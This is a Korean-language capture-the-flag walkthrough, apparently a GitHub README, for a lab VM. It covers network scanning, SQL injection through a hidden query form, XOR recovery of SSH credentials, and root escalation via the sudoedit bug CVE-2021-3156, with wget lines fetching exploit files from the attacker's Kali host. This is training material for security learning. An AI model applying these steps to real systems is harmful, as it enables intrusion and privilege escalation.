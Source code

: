 # XSS-CTF
2025-04-18 XSS-CTF  Walkthrough

네트워크 1-브리지 2-호스트

kali: 192.168.56.105
victim:192.168.56.143

nmap 192.168.56.0/24

nmap -A -sS -sC -p- 192.168.56.143


kali firefox에서 http://192.168.56.143 접속	//apache2 기본 페이지


## Scan

```
gobuster dir -u http://192.168.56.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,bak
```
![Image](https://github.com/user-attachments/assets/bd1a298b-82bf-4f81-88a9-02edc6157fcf)

/index.php  /index.html  /list.php  /add.php

## /index.php

들어가보았지만 Not Found가 뜬다. 그래서 web source페이지를 보았다.

![Image](https://github.com/user-attachments/assets/aa4d56d4-28ef-4e82-9b66-baba5fad9edc)

/H10000.txt

![Image](https://github.com/user-attachments/assets/520576de-79c4-4553-8a39-dfd7805ed9fb)

H10000 값

![Image](https://github.com/user-attachments/assets/432de6fe-9e2c-43fd-85b5-cea0166608b3)


## /list.php

index.php에서 Not Found가 떠서 list.php를 들어가면 다음과 같은 글이 작성되어있다.

1번 게시글 삭제 후 /index.php 를 다시 들어가면 정상적인 페이지가 뜬다는 것을 확인할 수 있다.

![Image](https://github.com/user-attachments/assets/3662b62c-6cd9-4126-a512-355c599517ab)

M1,M2,M3,M4 값이 중요하기 때문에 복붙

![Image](https://github.com/user-attachments/assets/e761c310-7b48-4307-bef6-122f69671eff)

![Image](https://github.com/user-attachments/assets/47239fa6-b91f-4f44-a8a0-5117113147f2)


## /add.php

http://192.168.56.143/add.php에서 View Source Code를 들어가서 보면 쿼리 작성폼이라는 주석이있는 줄에 쿼리 작성 폼과 ID 조회하는 코드에 type=”hidden”이 되어 있는 것을 알 수 있다.

![Image](https://github.com/user-attachments/assets/0a49c75c-76f1-428e-806e-f37223e4c611)

개발자 도구 -F12
<!- -MySQL 쿼리 입력 폼 -- > 주석 확인
type=”hidden” 2개 확인 가능

![Image](https://github.com/user-attachments/assets/e5ea83a6-c3fd-469f-bcb7-70803c2e2c4a)

type=”hidden” 삭제

type=”hidden” -> type=”submit” 변경

![Image](https://github.com/user-attachments/assets/5ef4b06f-da65-4cf9-b137-ae34d2fe3ee5)

![Image](https://github.com/user-attachments/assets/892fc8e3-3334-4420-b366-18da9c542498)

Mysql 쿼리 입력 부분 출력됨

![Image](https://github.com/user-attachments/assets/d5de20bf-3eb1-43bb-9e74-860b97a817c5)

SQL Injection 공격 가능 – userID DB 확인 가능

![Image](https://github.com/user-attachments/assets/b771484d-4fb4-4428-99e6-3ff44d8853ad)


## XOR 연산

XOR 변환기 http://kor.pe.kr/util/4/xor_convert.htm

/list.php 에서 얻은 M1,M2,M3,M4 값과 /H10000 에서 얻은 H10000 값으로 XOR 연산

이 과정은 총 2가지로 풀 수 있다.

1번 방법: 

192.168.56.143/index.php에서 다음과 같은 식을 제공하였다. 이때 P=Password다. 

M1=userID ⨁ K ⨁ H9999

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ 

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5값을 구하면 M4를 통해 H9999를 구할 수 있다. H9999=M4⨁P 이후 M1을 이용하여 K를 구할 수 있다. 이때 UserID는 위의 SQL Injection으로 찾아낸 UserID 중 하나씩 다 대입하면 UserID=Ocean777Timewarp를 넣어서 계산하다보면 그럴듯한 K=secretpassword12값이 나온다. 그 다음 M2에서 serverID=M2⨁H9999를 구할 수 있다. serverID=cr0sss1tescr1pt9 이제 서버의 ID와 Password를 전부 찾았다.

2방법: 

$$M1=userID ⨁ K ⨁ H9999$$

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ P

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5를 구한 후 M1⨁M2=userID⨁serverID가 나오고 SQL Injection으로 찾아낸 userID를 하나씩 대입하면 serverID= cr0sss1tescr1pt9가 나온다. 이렇게 하면 굳이 H9999값과 K값을 구하지 않아도 ServerID값을 구할 수 있다.


## SSH 접속

userID :
cr0sss1tescr1pt9

password :
df93ef64167b2334664ff59a5b8185f5

![Image](https://github.com/user-attachments/assets/93817ac5-e880-4dd2-bf48-1dcaf8cbc4ac)


## User Flag

![Image](https://github.com/user-attachments/assets/67b27143-5b03-4bef-ae07-28b84f7f9b08)


## Root Flag

root로 권한 상승 - sudoedit

![Image](https://github.com/user-attachments/assets/860113b8-fe28-4892-b37d-67c51934209d)

https://github.com/blasty/CVE-2021-3156  참조

- brute.sh , hax.c , lib.c 파일 생성

cr0sss1tescr1pt9 사용자는 vi,vim,nano 사용할 수 없다.

kali-root 계정에서 /var/www/html/ 디렉터리에 파일 생성 후, cr0sss1tescr1pt9 사용자 계정에서 wget으로 파일을 다운로드한다.

![Image](https://github.com/user-attachments/assets/55b9071e-acd5-4125-a93a-0b9bf4691f41)
```
wget http://192.168.56.105/brute.sh
```
![Image](https://github.com/user-attachments/assets/efbcb372-cd7d-44e4-a68f-a7b37b068949)
```
wget http://192.168.56.105/hax.c
```
![Image](https://github.com/user-attachments/assets/a66c7d11-fd0d-44d6-928b-d18b5c20d8f6)
```
wget http://192.168.56.105/lib.c
```
![Image](https://github.com/user-attachments/assets/1e57f253-9b9a-4791-a059-c80f5fb96e8a)

https://github.com/blasty/CVE-2021-3156 - Makefile 참고

![Image](https://github.com/user-attachments/assets/10a28bff-12d4-4aed-808a-d153e2604233)







